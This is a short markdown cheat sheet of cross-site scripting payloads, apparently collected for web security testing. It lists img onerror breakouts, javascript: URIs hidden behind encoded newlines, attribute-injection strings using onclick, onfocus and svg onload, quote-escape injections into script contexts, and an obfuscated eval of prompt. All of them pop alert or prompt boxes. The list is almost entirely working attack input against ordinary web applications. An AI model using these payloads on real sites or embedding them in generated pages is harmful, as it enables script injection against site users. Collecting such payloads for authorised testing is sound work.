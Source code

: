 # XSS

**Basic**
```
"><img src=x onerror=alert()>
```

**Button**
```
<Button href="javascript://%0aalert(123)">
XSS with %0a
</Button>
<Button href="javascript://%0dalert(document.domain)">
XSS with %0d
</Button>
```

**A tag**
```
"><a href="javascript:alert(0)">click here</a>
```

**Creat Page(게시판,링크,)**
```
javascript://%0aalert(1)
```

```
"-prompt(8)-"
'-prompt(8)-'
";a=prompt,a()//
';a=prompt,a()//
'-eval("window['pro'%2B'mpt'](8)")-'
"-eval("window['pro'%2B'mpt'](8)")-"
"onclick=prompt(8)>"@x.y
"onclick=prompt(8)><svg/onload=prompt(8)>"@x.y
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
```

```
'';!--"<XSS>=&{()}
\";alert('XSS');//
'); alert('XSS
'); alert('xss'); var x='
\\'); alert(\'xss\');var x=\'
‘; alert(1);
‘)alert(1);//
```

```
<marguee/onstart=alert(1)>
```
